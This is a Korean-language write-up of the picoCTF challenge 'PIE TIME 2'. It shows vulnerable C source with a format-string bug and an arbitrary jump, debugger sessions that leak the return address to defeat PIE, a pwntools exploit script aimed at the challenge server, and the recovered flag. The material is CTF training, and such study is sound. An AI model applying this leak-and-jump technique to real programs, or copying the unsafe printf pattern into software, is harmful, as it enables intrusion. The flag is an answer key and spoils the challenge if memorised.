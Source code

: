 # [PIE TIME 2](https://play.picoctf.org/practice/challenge/491?category=6&originalEvent=74&page=1)
<br />

**Description:**
> Can you try to get the flag? I'm not revealing anything anymore!!
<br />

**Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  call_functions();
  return 0;
```
<br />

**Binary Protections:**
```yaml
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=89c0ed5ed3766d1b85809c2bef48b6f5f0ef9364, for GNU/Linux 3.2.0, not stripped

[*] '/home/kali/pico/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```
<br />
<br />

바이너리를 실행하면 입력을 받고, 이를 출력합니다. 이후 점프할 주소를 입력받고, 호출합니다. 소스코드를 보면 `printf(buffer)`를 사용하고 있는데, 이는 내부 주소 유출 및 특정 주소 조작 등을 할 수 있는 FSB 취약점이 발생합니다. 바이너리에는 PIE가 적용되어 있지만, 해당 취약점을 통해 `win`의 주소를 구할 수 있습니다.

우선 아래 과정을 통해 `RET`의 주소를 알아냅니다.

```asm
pwndbg> b *call_functions+121
Breakpoint 1 at 0x555555555340
pwndbg> r
...
─────────────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────────────
 ► 0   0x5555555552c7 call_functions
   1   0x555555555441 main+65
   2   0x7ffff7dedca8 __libc_start_call_main+120
   3   0x7ffff7dedd65 __libc_start_main+133
   4   0x5555555551ee _start+46
...
pwndbg> x/2gx $rbp
0x7fffffffe070: 0x00007fffffffe080      0x0000555555555441
pwndbg> x/a 0x0000555555555441
0x555555555441 <main+65>:       0xfc35d00000000b8
```
디버깅으로 `call_functions` 의 `RET` 주소는 `0x555555555441`인 것을 알 수 있고, 주소의 마지막 3자리는 `441`입니다. 이제 `RET`의 주소를 알았으니, 오프셋을 특정할 수 있습니다.

```bash
./vuln
Enter your name:%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p.%p
0x561cc567f2a1.0xfbad2288.0x3a980d5f.0x561cc567f2df.(nil).0x7f523844ffd0.(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0xa70252e70252e.0x7ffd7882d340.0x1af3520c4ae5ad00.0x7ffd7882d340.0x561ca9576441.0x1.0x7f5238293ca8
 enter the address to jump to, ex => 0x12345:
```
```bash
$ ./vuln
Enter your name:%19$p
0x557dc4a2e441
 enter the address to jump to, ex => 0x12345:
```
`RET`의 오프셋은 `19` 입니다. 이제 `win`의 주소를 구할 수 있습니다.
```yaml
pwndbg> p win
$1 = {<text variable, no debug info>} 0x55555555536a <win>
pwndbg> p/x 0x555555555441 - 0x55555555536a
$2 = 0xd7
```
`RET`과 `win` 사이의 오프셋은 `0xd7` 입니다. 위 과정을 종합하여 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"

# p = process("./vuln")
p = remote("rescued-float.picoctf.net", 64714)

p.sendlineafter(b"Enter your name:", b"%19$p")
leak = int(p.recvline()[:-1],16)
win = leak - 0xd7

p.sendlineafter(b"0x12345:", hex(win).encode())
p.interactive()
```
```bash
$ python3 test.py
You won!
picoCTF{p13_5h0u1dn'7_134k_9d4030a3}

$
```

